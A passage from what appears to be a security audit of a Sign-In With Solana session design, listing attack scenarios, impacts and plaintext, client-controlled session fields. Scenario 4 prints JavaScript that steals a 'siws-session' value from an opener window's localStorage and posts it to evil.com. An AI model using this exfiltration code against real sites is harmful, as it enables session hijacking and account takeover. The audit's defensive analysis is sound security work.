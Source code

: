 ### Scenario 4: Cross-Origin Session Theft
```javascript
// Malicious website with permissive CORS
if (window.opener) {
  try {
    // Access parent window's localStorage
    const parentSession = window.opener.localStorage.getItem('siws-session');
    
    // Send stolen session to attacker
    fetch('https://evil.com/stolen', {
      method: 'POST',
      body: parentSession
    });
  } catch (e) {
    // Try alternative methods
  }
}
```

### Scenario 5: Session Race Condition Exploit
```javascript
// Open multiple tabs and race condition the session state
// Tab 1: Initiates logout
// Tab 2: Quickly makes authenticated request
// Tab 3: Modifies localStorage during logout process

// Result: Inconsistent session state allowing bypass
```

## Business Impact

- **Complete Account Takeover**: Attackers gain full user access
- **Persistent Compromise**: Sessions remain valid after theft
- **Data Exfiltration**: All user data accessible via hijacked sessions
- **Privilege Escalation**: Session manipulation allows admin access
- **Forensic Evidence Tampering**: Investigators' sessions can be compromised
- **Compliance Violations**: Session security required by standards

## Detailed Session Security Analysis

### Vulnerable Session Structure
```typescript
interface SIWSSession {
  address: string;           // User's wallet address
  message: string;           // Signed message content
  signature: string;         // Cryptographic signature
  timestamp: number;         // Session creation time
  authenticated: boolean;    // Authentication status
  // ALL STORED IN PLAINTEXT localStorage
}

interface AuthSecurityMetadata {
  pqcAuthEnabled: boolean;      // False security flag
  didVerified: boolean;         // Client-controlled
  securityLevel: string;        // Client-controlled
  classificationLevel: string;  // Client-controlled
  auditTrail: SecurityAuditEvent[]; // Client-controlled
  // ALL ATTACKER-CONTROLLABLE
}
```
